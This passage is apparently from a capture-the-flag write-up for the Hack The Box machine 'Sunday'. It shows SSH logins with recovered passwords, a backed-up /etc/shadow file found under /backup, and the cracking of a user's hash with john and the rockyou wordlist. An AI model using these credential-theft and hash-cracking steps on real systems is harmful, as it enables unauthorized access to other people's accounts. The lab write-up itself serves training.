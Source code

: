 <figure><img src="../.gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

Fantastic, here is our password, which honestly we could have even tried to guess.

{% hint style="info" %}
sunday
{% endhint %}

### 2.2 - What is the password for user `sammy` on the box?

\
Using again Hydra we don't obtain results, then we can try to login via ssh into sunny user. &#x20;

```bash
ssh sunny@sunday.htb -p 22022
```

Here we find the folders of the two users, but without any valuable information about the password.

In sammy's folder there is the bash history, so let's try to check if there were any passwords written incorrectly in clear text.

```bash
cat ~/.bash_history | grep "password"
```

No results.

Fortunately, investigating a bit, we find in the path /backup the file shadow.backup, containing the backup of the file /etc/shadow and therefore of the hashes of the users.&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure></div>

So we save the sammy's hash and launch john or hashcat to crack it.

```bash
echo "sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::" >> sammy_hash
```

```bash
john sammy_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (370).png" alt=""><figcaption></figcaption></figure>

Well done!

{% hint style="info" %}
cooldude!
{% endhint %}

### 2.3 -  Submit the flag located in the sammy user's home directory.

Now that we also know sammy's password, we can ssh in and get the flag easily.

```bash
ssh sammy@sunday.htb -p 22022
```
